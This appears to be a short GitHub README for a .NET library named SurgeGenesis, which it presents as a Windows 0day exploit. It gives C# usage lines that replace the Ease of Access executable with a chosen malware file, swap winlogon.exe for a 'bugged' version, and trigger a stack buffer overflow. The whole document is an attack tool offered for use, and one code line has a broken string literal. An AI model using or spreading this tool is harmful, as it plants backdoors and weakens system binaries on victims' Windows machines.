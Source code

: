 # Surge Genesis

If you import SurgeGenesis.dll into your .NET application in Visual Studio in the References, you can exploit the 0day.

Just call
```cs 
using SurgeGenesis;
```
and
```cs
SurgeGenesis.Surger genesis = new SurgeGenesis.Surger();
```

Then you can use some commands like
```cs
Genesis.SurgeStart("c:\users\johndoe\downloads\MalwareFile.exe);  // Replaces the Ease of Access file with the selected file
Genesis.SurgeBuffer();  // Replaces winlogon.exe with a bugged version that has security bugs
Genesis.BufferOverflow();  // Starts a Stack Buffer Overflow (not reccomended as it is just a bufferoverflow to have if you don't know how to make a bufferoverflow payload)
```
